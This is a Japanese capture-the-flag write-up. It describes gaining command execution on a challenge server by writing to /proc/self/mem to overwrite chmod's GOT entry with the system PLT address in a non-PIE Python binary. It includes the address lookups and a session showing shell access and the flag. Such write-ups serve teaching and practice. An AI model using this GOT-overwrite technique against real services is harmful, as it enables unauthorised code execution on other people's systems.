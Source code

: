 # Solution

/proc/self/memで自分のプロセスのメモリ内容を書き換え出来て、pythonバイナリがPIE無効であるため、got領域を飛ばしたいアドレスで上書きするというテクニックを使用する。      
     
server.pyで呼び出されるchmod@gotは以下のような固定アドレス。     
```
$ objdump -R /usr/bin/python3  | grep chmod
00000000009b4028 R_X86_64_JUMP_SLOT  chmod@GLIBC_2.2.5
```
system@pltも次のように固定アドレスとなっている。     
```
0800| 0x9b4320 --> 0x7fc66dfc5970 --> 0x48050f00000020b8
0808| 0x9b4328 --> 0x41f4a6 (<XML_GetErrorCode@plt+6>:  push   0x62)
0816| 0x9b4330 --> 0x41f4b6 (<getpriority@plt+6>:       push   0x63)
0824| 0x9b4338 --> 0x41f4c6 (<endspent@plt+6>:  push   0x64)
0832| 0x9b4340 --> 0x41f4d6 (<if_nametoindex@plt+6>:    push   0x65)
0840| 0x9b4348 --> 0x41f4e6 (<system@plt+6>:    push   0x66)
```

以上より、chmod@gotをsystem@pltに書き換えることにより、server.pyの最後のos.chmodで任意コマンド実行できるのではと考えて、成功した。gotやpltのアドレスはDockerfileにより環境構築することにより特定。
```
$ python3 exp.py
[+] Opening connection to pwn.byteband.it on port 7000: Done
[*] Switching to interactive mode
 Give me file: $ ls
flag.txt
server.py
$ cat flag.txt
flag{imagine_not_having_pie_in_2020}
```
